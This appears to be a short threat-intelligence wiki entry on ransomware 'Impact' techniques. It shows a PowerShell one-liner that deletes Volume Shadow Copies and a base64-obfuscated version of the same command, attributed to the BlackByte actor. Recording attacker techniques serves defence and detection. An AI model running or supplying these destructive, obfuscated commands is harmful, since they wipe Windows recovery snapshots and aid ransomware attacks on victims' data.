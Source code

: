 # Impact



### Remove Volume Shadow Copies

{% code overflow="wrap" %}
```
Get-WmiObject Win32_Shadowcopy | ForEach-Object {$_.Delete();}
```
{% endcode %}

The threat actor TTP is associated with BlackByte and executes the above as base64.

{% code overflow="wrap" %}
```powershell
powershell.exe $x = [System.Text.Encoding]::Unicode.GetString([System.Convert]::FromBase64String('RwBlA HQALQBXAG0AaQBPAGIAagBlAGMAdAAg'+'AFcAaQBuADMAMgBfAFMAaABhAGQAb wB3AGMAbwBwAHkAIAB8AC'+'AARgBvAHIARQBhAGMAaAAtAE8AYgBqAGUAYwB0A CAAewAkA'+'F8ALgBEAGUAbABlAHQAZQAoACkAOwB9AA=='));Invoke-Expression $x
```
{% endcode %}

